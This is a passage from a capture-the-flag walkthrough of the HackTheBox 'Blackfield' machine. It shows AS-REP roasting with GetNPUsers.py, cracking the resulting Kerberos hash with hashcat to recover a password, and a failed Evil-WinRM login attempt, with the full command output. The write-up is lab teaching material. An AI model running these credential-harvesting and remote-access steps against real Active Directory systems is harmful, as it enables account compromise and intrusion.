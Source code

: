 ```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]                                                     
└─# GetNPUsers.py BLACKFIELD.local/AAlleni -dc-ip 10.10.10.192 -usersfile userlist

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:6c4abb99a36faa761188bf7118998eb1$1e2c1afa5619bcee910235a29447654c66fc1dfeb415562db72a23aec206578c0482e32d03f38e5912f9994c9e88528f7e581b70998dbf1dd349375b352f095679c8be7726320857e77eba96c449868979412296fbec8c9848ced7cff89056e3a3efb8dcd50c1893dc34fe2df84875d4745d8dca718f60cd7353e141c7dc9d51a69cf85a3ee788a35eb4099577f2c026ac3fd6b8127ed78d2d487a9bda31d4fd65b5984fa0116f8c47549713c1421672f70be43383d6d76bc9ddc93760eff85b62dc4e100829241a5e777793dbb502c7f6db7a1c0cada3b71c80f7a6bfe07f78f2cfec5b43fa489f3df7cfd743e64f2bd5b30851
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set

```

While many of the usernames were actually invalid, we did find three valid users (svc_backup, audit2020, and support), and a hash for one. Something to note is the audit user; previously, when we enumerated SMB shares, there was a "forensic" folder that this audit user likely has access to. Moving on, we can crack the hash with hashcat on mode 18200 after writing the hash to a file, and this yields us the following information

```
┌──(root💀DESKTOP-VBI49KD)-[/mnt/d/Downloads]
└─# hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt --force

$krb5asrep$23$support@BLACKFIELD.LOCAL:6c4abb99a36faa761188bf7118998eb1$1e2c1afa5619bcee910235a29447654c66fc1dfeb415562db72a23aec206578c0482e32d03f38e5912f9994c9e88528f7e581b70998dbf1dd349375b352f095679c8be7726320857e77eba96c449868979412296fbec8c9848ced7cff89056e3a3efb8dcd50c1893dc34fe2df84875d4745d8dca718f60cd7353e141c7dc9d51a69cf85a3ee788a35eb4099577f2c026ac3fd6b8127ed78d2d487a9bda31d4fd65b5984fa0116f8c47549713c1421672f70be43383d6d76bc9ddc93760eff85b62dc4e100829241a5e777793dbb502c7f6db7a1c0cada3b71c80f7a6bfe07f78f2cfec5b43fa489f3df7cfd743e64f2bd5b30851:
#00^BlackKnight
```

Now that we have valid credentials, we can use Evil-WinRM to get remote access through the WinRM service.

```
┌──(root💀kali)-[/home/kali]
└─# evil-winrm -i 10.10.10.192 -u 'support' -p '#00^BlackKnight' 

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

Turns out this doesn't work. This is likely because this user isn't in the "Remote Management Users" group, which is needed if a user is to try to gain access through the WinRM service. In other words, the service can only be used by users in that group. We can confirm this by running bloodhound (plus this helps us enumerate even further, now that we have access to an actual user).
